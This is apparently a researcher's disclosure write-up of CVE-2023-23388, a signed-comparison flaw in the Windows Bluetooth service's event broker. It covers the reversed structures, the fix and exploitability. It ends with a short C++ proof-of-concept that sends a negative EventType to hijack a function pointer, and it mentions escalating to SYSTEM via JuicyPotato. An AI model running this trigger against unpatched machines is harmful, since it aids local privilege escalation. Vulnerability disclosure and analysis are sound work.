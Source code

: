 ```yaml
---
layout: post
title: CVE-2023-23388
master: bthadv-2022
---
```

<script>
addCustomTypes(['BR_VALUE_TYPE', 'BR_BUFFER', 'BR_EVENT_PARAMETER', 'BiRtCreateEventForAppFn', 'GUID', 'HMODULE', 'function', 'HRESULT', 'BUFFER', 'INT', 'lambda_a6b4a4e60e26254477fb011d24285961_']);
addCustomNames(['trigger', 'UseExtendedFormat', 'manufacturerData', 'CompanyId', 'Advertisement', 'm_Size', 'm_Data', 'm_Name', 'm_Type', 'm_IntValue', 'm_BufValue', 'name', 'value', 'advData', 'eventParameters', 'biWinRtModule', 'createEventForApp', 'zeroGuid', 'eventParams', 'bthEventBrokerGuidBytes', 'bthEventBrokerGuid', 'vector', 'eventType', 'EVENT_TYPE_MAX', 's_brokerTriggerTable', 'triggerHandler', 'vector']);
</script>

*[← CVE-2023-24871 - LPE](/w-cve-2023-24871-lpe)* | *[Home →](/)*

This post will give a brief description about CVE-2023-23388. While creating an exploit for the LPE vector with CVE-2023-24871, I stumbled upon this bug as well. It's on the same code path as the other LPE, but doesn't really involve bluetooth at all. In fact, you could know nothing about bluetooth and still triage the issue completely. The bug is a very classic one, with input data not being validated properly and that giving an attacker an opportunity to wreak havoc.

## contents
---
- [1.0 vulnerability](#10-vulnerability)
- [2.0 prerequisites](#20-prerequisites)
- [3.0 poc + exploit](#30-poc--exploit)

## [1.0] vulnerability
---
In the previous post, I gave some details on how a client using WinRT BLE APIs and a server in **bthserv** communicate to allow unprivileged applications to do BLE-related stuff. On both the client side and the server side there are three "layers" of data that each request generally goes through:
- WinRT layer, with the client using provided [APIs](https://learn.microsoft.com/en-us/uwp/api/windows.devices.bluetooth?view=winrt-22621) to instantiate objects and call methods on them, and the server performing requested actions, usually by communicating with components down the stack.
- The BluetoothEvent layer, with `BrokerLib.dll` on the server side and `biwinrt.dll` on the client side. A BLE client request is transformed from the WinRT layer into a bluetooth "event" that contains arguments mapped by their name. The server side works with these event objects by detecting the event type and then delegating execution to a specific function that reads arguments specific to that event type.
- The RPC layer, which transforms data between the client and the server.

The intermediate layer is meant to be quite flexible, as it needs to forward many different types of BLE requests, each of them having a specific set of arguments. To that end, using a dictionary-like structure is not the worst idea. Let's recall the structures used in this layer:
```
// Reverse engineered from Windows.Devices.Bluetooth.dll
enum class BR_VALUE_TYPE
{
    INT = 0,
    BUFFER = 4,
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec(align(8)) BR_BUFFER
{
    uint64_t m_Size;
    const void* m_Data;
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec (align(8)) BR_EVENT_PARAMETER
{
    BR_EVENT_PARAMETER(const wchar_t* name, int32_t value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::INT;
        m_IntValue = value;
    }

    BR_EVENT_PARAMETER(const wchar_t* name, const BR_BUFFER& value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::BUFFER;
        m_BufValue = value;
    }

    const wchar_t* m_Name;
    BR_VALUE_TYPE m_Type;
    union
    {
        int32_t m_IntValue;
        BR_BUFFER m_BufValue;
    };
};
```
An event is then just a list of `BR_EVENT_PARAMETER` objects. To create an event and send it to the RPC server, all we have to do is call `biwinrt.dll!BiRtCreateEventForApp` with some GUID parameters and an array of `BR_EVENT_PARAMETER` objects. The type of the event we're sending is serialized as an argument named `EventType`, and the server ensures that this argument exists before doing anything else with the event. Based on the value of the argument, the type of the request is determined, and execution is then delegated into a function specific to that type of the request, which further reads the arguments. For example, in the previous vulnerability, we used `EventType = 4` to create a `BluetoothLEAdvertisementPublisherTrigger` object on the server. The handler function called by the server was `BluetoothLEAdvertisementPublisherTrigger::Create`, which further read arguments such as `AdvertisementPayload`, `UseExtendedFormat` and others.

The function that initially parses the event and decodes its event type is `lambda_a6b4a4e60e26254477fb011d24285961_`, which is a C++ lambda function that's (probably!) defined as part of `BluetoothEventBroker::s_OnCreateEvent` in `BrokerLib.dll`:

```
lambda_a6b4a4e60e26254477fb011d24285961_::operator()(void* parameter)
{
	// Some preliminary checks
	...
	auto eventParameters = ...; // fetched from the parameter, contains a pointer to BR_EVENT_PARAMETER* array and the size of the array
	int32_t eventType = 0;
	if (BrokerUtilities::UnpackParameterIntegral<int32_t>(eventParameters, L"EventType", &eventType) >= 0)
	{
		// EVENT_TYPE_MAX = 6
		if (eventType <= EVENT_TYPE_MAX)
		{
			...
			auto triggerHandler = s_brokerTriggerTable[eventType];
			triggerHandler(....);
			...
		}
		...
	}
	...
}
```

The maximum value of the `EventType` parameter is `EVENT_TYPE_MAX`, aka 6, and the function verifies that the client didn't send a value higher than that. The bug here is the fact that `eventType` is a signed integer. This means that the comparison against `EVENT_TYPE_MAX` is signed, allowing negative values to successfully bypass the check. After the check is passed, the function fetches a function pointer to a specific handler for this event type, and calls it. If a negative value is used in this place, the function pointer value will be something unexpected, allowing the attacker to direct control flow into an unexpected place.

## 2.0 fix
---
I'm not sure how the issue was fixed in source code, but the validation now ensures that `eventType` is higher or equal to zero. Most likely, there's an explicit condition in code, rather than the underlying type being changed into an unsigned integer, as that would most likely result in an unsigned comparison instruction rather than an extra comparison.

# 3.0 exploitability
---
I didn't manage to turn this into a functional exploit, though I did briefly try. The primitive is really nice, as it allows the attacker to interpret some memory value as a function pointer and call it. The limitation is that the hijacked function has to be referenced by some data that's within `1 << 32` bytes of memory behind the location of `s_brokerTriggerTable`. Even though this limits the use of functions contained within the same module, commonly the attacker will be able to "find" a reference to a desirable function in modules that are loaded in the reachable memory behind the vulnerable module. Another problem is that the arguments passed to the function reference attacker-controlled data very indirectly, so having control over those is difficult too.

As was the case in the previous vulnerability, what helps is that **bthserv** automatically restarts upon crashing, so any probabilistic exploits can be tried over and over until they succeed. Of course, once execution is achieved within **bthserv**, it's not hard to escalate further to **SYSTEM** via e.g. JuicyPotato.

# 4.0 prerequisites
---
Once again, for a machine to be vulnerable, Bluetooth must be turned on, as **bthserv** will discard requests otherwise. The client must also be running as an AppContainer with the Bluetooth capability, but that's not much of a deterrent. Other than that, there are no further requirements to trigger the vulnerable code path - just a happy little RPC request and everything is in place.

# 5.0 poc
---
I uploaded a PoC to [github](https://github.com/ynwarcs/CVE-2023-23388). Once again we inject into `StartMenuExperienceHost.exe` to avoid having to create our own AppContainer. We create en event with `EventType = -0x50C` and call `biwinrt.dll!BiRtCreateEventForApp` to reach the vulnerable function on the server. The essence of the code is very simple and pretty much the same as in the previous vulnerability:

```
using BiRtCreateEventForAppFn = HRESULT(GUID&, GUID&, int64_t, BR_BUFFER&);
HMODULE biWinRtModule = GetModuleHandle(L"biwinrt.dll");
std::function<BiRtCreateEventForAppFn> createEventForApp = reinterpret_cast<BiRtCreateEventForAppFn*>(GetProcAddress(biWinRtModule, "BiRtCreateEventForApp"));

std::vector<BR_EVENT_PARAMETER> eventParameters;
eventParameters.emplace_back(L"EventType", -0x50C);
eventParameters.emplace_back(L"Version", 0);

GUID zeroGuid = {};
BR_BUFFER eventParams = { eventParameters.size(), eventParameters.data() };

// Bluetooth GUID, taken from Windows.Devices.Bluetooth.dll
uint8_t bthEventBrokerGuidBytes[] = { 0x62, 0xE9, 0xCA, 0xFC, 0x22, 0x47, 0xC7, 0x40, 0xA4, 0x6D, 0xFE, 0x51, 0x53, 0x28, 0x07, 0x23 };
GUID bthEventBrokerGuid = {};
memcpy(&bthEventBrokerGuid, bthEventBrokerGuidBytes, sizeof(GUID));

// Send our event
HRESULT res = createEventForApp(zeroGuid, bthEventBrokerGuid, 0, eventParams);
```

*[← CVE-2023-24871 - LPE](/w-cve-2023-24871-lpe)* | *[Home →](/)*